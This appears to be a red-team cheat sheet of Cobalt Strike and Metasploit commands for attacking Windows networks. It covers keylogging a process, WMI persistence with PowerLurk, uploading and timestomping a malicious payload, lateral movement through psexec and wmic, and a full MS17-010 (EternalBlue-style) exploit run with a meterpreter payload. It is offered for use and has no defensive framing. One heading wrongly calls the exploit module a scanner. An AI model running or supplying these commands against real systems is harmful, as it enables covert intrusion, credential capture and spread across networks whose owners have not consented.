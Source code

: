 
## Keylogging - using CobaltStrike
````
## Explore.exe is a Good Process to Keylog ##
keylogging x64 <PID>
````
## PERSISTENCE WMI EVENT REGISTRATION
````
powershell-import <Path to PowerLurk.ps1>
powershell Get-WMIEvent

upload <Path to malicous payload>
timestomp <payload> kernel32.dll

### upload PowerLurk to attack platform ##
````

## LATERAL MOVEMENT - using CobaltStrike
````
psexec_psh <IP> <SMB Listener>
psexec <ADMIN SHARE> <IP> <SMB Listener>
wmi <IP> <SMB Listener>
wmic <IP> <SMB Listener>

## Old School Method
upload <executable/dll>
shell copy <executable/dll> <Remote Location>
wmic /node:ComputerName process call create "cmd.exe /c <executable/dll>"
````

# SETUP METASPLOIT
````
msf console
````

## SETUP MSF SOCK PROXY
````
setg Proxies socks4:127.0.0.1:<RHP>
````

## AUXILIARY/SCANNER/SMB/SMB_M17_010
````
use exploit/windows/smb/ms17_010_psexec
options
set RHOST <IP>
set target 1
set payload windows/x64/meterpreter/bind_tcp
set LPORT <PORT NUMBER>
exploit
````
